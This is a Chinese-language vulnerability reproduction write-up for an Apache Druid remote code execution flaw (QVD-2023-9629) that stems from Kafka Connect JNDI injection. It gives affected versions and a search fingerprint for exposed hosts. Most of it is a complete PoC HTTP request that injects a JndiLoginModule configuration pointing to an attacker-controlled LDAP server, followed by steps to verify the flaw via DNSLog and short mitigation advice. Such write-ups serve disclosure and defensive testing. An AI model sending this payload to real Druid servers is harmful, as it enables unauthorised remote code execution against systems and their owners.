

Apache Druid 远程代码执行漏洞 QVD-2023-9629¶
漏洞描述¶
该漏洞源于 Apache Kafka Connect JNDI 注入漏洞（CVE-2023-25194），Apache Druid 由于支持从 Kafka 加载数据，刚好满足其利用条件，攻击者可通过修改Kafka 连接配置属性进行 JNDI 注入攻击，进而在服务端执行任意恶意代码。
漏洞影响¶
Apache Druid <= 25.0.0
网络测绘¶
title="Apache Druid"
漏洞复现¶
访问漏洞环境，点击 Load data -> Streaming，进入页面后点击 Apache Kafka -> Connect data：

在 Bootstrap servers 和 Topic 处填入任意字符，点击 Apply，抓包。
poc：
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 1437
Connection: close
{
"type":"kafka",
"spec":{
"type":"kafka",
"ioConfig":{
"type":"kafka",
"consumerProperties":{
"bootstrap.servers":"1.1.1.1:9092",
"sasl.mechanism":"SCRAM-SHA-256",
"security.protocol":"SASL_SSL",
"sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://your-ip\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
},
"topic":"any",
"useEarliestOffset":true,
"inputFormat":{
"type":"regex",
"pattern":"([\\s\\S]*)",
"listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
"columns":[
"raw"
]
}
},
"dataSchema":{
"dataSource":"sample",
"timestampSpec":{
"column":"!!!_no_such_column_!!!",
"missingValue":"1970-01-01T00:00:00Z"
},
"dimensionsSpec":{
},
"granularitySpec":{
"rollup":false
}
},
"tuningConfig":{
"type":"kafka"
}
},
"samplerConfig":{
"numRows":500,
"timeoutMs":15000
}
}
修改请求包，user.provider.url 处填写你的 ldap 服务 url。
利用 DNSLog 验证漏洞是否存在。
修复建议¶
- 避免 Apache Druid 开放至公网。
- 开启身份认证机制,可参考官方文档：https://druid.apache.org/docs/latest/development/extensions-core/druid-basic-security.html